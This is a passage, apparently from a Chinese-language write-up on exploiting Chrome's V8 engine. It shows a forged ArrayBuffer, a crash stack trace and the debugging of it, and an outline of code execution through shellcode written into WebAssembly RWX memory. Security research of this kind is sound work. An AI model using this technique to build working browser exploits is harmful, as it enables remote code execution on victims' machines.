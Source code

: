 ```javascript
view = new Uint8Array(fake_buf_0_3000)
```

调试运行，发生异常：

``` cpp
#
# Fatal error in , line 0
# Check failed: 0 == array_buffer->byte_length().
#
#
#
#FailureMessage Object: 000000792BFFDD40
==== C stack trace ===============================

v8::base::debug::StackTrace::StackTrace [0x00007FF605911A5B+27] (C:\Users\MSI-NB\workspace\depot_tools\chromium\v8\src\base\debug\stack_trace_win.cc:173)
v8::platform::`anonymous namespace'::PrintStackTrace [0x00007FF6058AF237+39] (C:\Users\MSI-NB\workspace\depot_tools\chromium\v8\src\libplatform\default-platform.cc:28)
V8_Fatal [0x00007FF6058A7FE9+217] (C:\Users\MSI-NB\workspace\depot_tools\chromium\v8\src\base\logging.cc:166)
v8::internal::Runtime_GrowableSharedArrayBufferByteLength [0x00007FF60539CF3C+540] (C:\Users\MSI-NB\workspace\depot_tools\chromium\v8\src\runtime\runtime-typedarray.cc:56)
(No symbol) [0x0000039A000BDFDC]
```

根据异常日志和调用栈，定位到如下函数：

```cpp
RUNTIME_FUNCTION(Runtime_GrowableSharedArrayBufferByteLength) {
  HandleScope scope(isolate);
  DCHECK_EQ(1, args.length());
  CONVERT_ARG_HANDLE_CHECKED(JSArrayBuffer, array_buffer, 0);

  CHECK_EQ(0, array_buffer->byte_length()); // ==> 这个检查没有通过
  size_t byte_length = array_buffer->GetBackingStore()->byte_length();
  return *isolate->factory()->NewNumberFromSize(byte_length);
}
```

把 ByteLength 改成 0 后，`GetBackingStore()` 中又会触发其他异常，有必要深入分析一下这个函数的逻辑。分析正常的 `ArrayBuffer` 访问流程作为参照，发现程序是不会走到`Runtime_GrowableSharedArrayBufferByteLength` 的。推测是填 0 处理隐藏了真正的错误，把之前填 0 的地方全都填上了 0xCC 再运行脚本，发现问题解决了，不再出现异常了。

执行 `view[0] = 0xAA;`，触发了 0x0 地址访问异常，证明我们伪造的 `ArrayBuffer` 可以正常使用了。

### 代码执行

接下来就可以实现代码执行了。代码执行的实现，分成下面几个步骤：

- 创建 [WebAssembly](https://developer.mozilla.org/zh-CN/docs/WebAssembly/Concepts) 实例
- 读取 WASM 模块导出函数所在 RWX 内存区的地址
- 利用任意地址读写能力，将 shellcode 写入可执行的内存
- 调用 WASM 导出函数，触发 shellcode 执行
